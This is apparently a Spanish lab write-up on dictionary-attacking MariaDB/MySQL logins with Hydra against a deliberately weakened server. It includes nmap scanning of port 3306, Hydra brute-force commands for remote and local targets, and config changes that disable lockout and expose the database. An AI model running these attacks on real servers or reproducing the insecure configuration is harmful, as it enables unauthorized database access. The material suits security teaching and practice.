









# Crackeo de Contraseñas MySql con Mariadb


Para este escenario he necesitado una máquina debian con `mariadb` y por otro lado, he utilizado la herramienta `Hydra` alojada en un Kali Linux.

## En Mariadb
**Instalar el servidor de forma habitual con:** 

``` bash
sudo apt install mariadb-server mariadb-client
```

**Iniciar el servicio de MariaDB:**

``` bash
sudo systemctl start mariadb
```

Habilitar que MariaDB se inicie automáticamente al arrancar:

``` bash
sudo systemctl enable mariadb
```

`No instalar mysql_secure_installation` o no funcionará.

Con mariadb instalado, ahora es momento de crear algunos usuarios:

- Raul:micontraseña
- gabriel:contraseña
- root:admin




Para que un usuario pueda conectarse debe ser creado con `create user 'gabriel'@'%' identified by 'contraseña';`. Muy importante que lleve el `%` para permitir conexiónes no solo locales.


Con los usuarios ya creados, ahora hay que modificar el archivo de configuración del servidor para que este ataque funcione, porque si no se hace, el servidor te mete un ban y ya no puedes volver a intentar entrar. (A no ser que se haga un `flush hosts`) 

``` bash
sudo nano /etc/mysql/mariadb.conf.d/50-server.cnf
```




[mysqld]
max_connect_errors=1000000
max_connections=1000




Y modificar también la parte de `bind-addres` que viene por defecto con `127.0.0.1` por `0.0.0.0` para permitir las conexiones remotas.

Reinicio el servicio:

``` bash
sudo systemctl restart mariadb
```

Y con esto el servidor mysql esta configurado ahora pasaré a la parte de Kali Linux.

## En Kali Linux:

Lo primero es tener en cuenta las ips, tanto la de la máquina servidor como la atacante. Dicho esto, lo primero que voy a hacer es escanear el puerto `3306` que es el utilizado por `mysql`, y con  `-vvvv` para tener mas información, de la máquina servidor:

``` bash
nmap -p 3306 10.0.2.15 -vvvv
```




Lo que me devuelve que el puerto 3306 esta abierto por lo que puedo proceder con el ataque.

Lo siguiente es preparar los diccionarios que voy a usar. He creado 2 diccionarios, uno con `contraseñas` y otro con `usuarios`, para probar 2 casos, uno en el que me sé el usuario pero no la contraseña y viceversa.

Para empezar el ataque, le especifico a hydra con `-l minúscula, que conozco el usuario` y con `-P mayúscula que no conozco la contraseña`. Para ello utilizo mi diccionario de contraseñas probando diferentes usuarios, por ejemplo:

### **Usuario gabriel:**

``` bash
hydra -l gabriel -P /usr/share/wordlists/diccionario.txt mysql://10.0.2.15 -vvvv
```



### **Usuario root:**
  
``` bash
hydra -l root -P /usr/share/wordlists/diccionario.txt mysql://10.0.2.15 -vvvv
```



### **Usuario Raul:**

``` bash
hydra -l Raul -P /usr/share/wordlists/diccionario.txt mysql://10.0.2.15 -vvvv
```



Como se ve en las imágenes, se consigue la contraseña de esos usuarios, pero es debido a que tenia en mi diccionario muchas contraseñas, incluidas las de esos usuarios. 


## **Conociendo la contraseña pero no el usuario:**

Es practicamente lo mismo, especificar que al no conocer el usuario tengo que darle el parámetro -L en mayúsculas, y la contraseña -p en minúsculas porque sí la conozco, y especificando el diccionario que he creado antes lleno de nombres de usuario. Probando con la contraseña `contraseña` quedaría así:


``` bash
hydra -L /usr/share/wordlists/usuarios.txt -p contraseña mysql://10.0.2.15 -vvvv
```



De esta forma es posible obtener las contraseñas de usuarios de mysql, pero claro, todo esto bajo unas condiciones preparadas para este escenario, como lo de preparar el servidor para que no haga ban, etc.

## Crackeo mysql en local

Para poder crackear las contraseñas de los usuarios mysql pero en local, hay que usar `hydra` ya que `John` no esta pensado para esto. El procedimiento es el mismo que en remoto con la diferencia de que a la hora de poner la ip de la máquina destino, se pone la ip del localhost 127.0.0.1. Por ejemplo, en mi propio Kali, para crackear la contraseña del usuario `gabriel` que cree antes, es de la siguiente manera:

``` bash
hydra -l gabriel -P /usr/share/wordlists/diccionario.txt mysql://127.0.0.1 -vvvv
```



De esta forma es posible también crackear los usuarios de forma local, ya que hydra es una herramienta muy poderosa y John no está diseñado específicamente para realizar ataques contra bases de datos MySQL, mas bien es conocido principalmente por ser una herramienta de prueba de contraseñas que se utiliza para realizar ataques de fuerza bruta o diccionario contra archivos de contraseñas, hashes de contraseñas u otros formatos de almacenamiento de contraseñas.


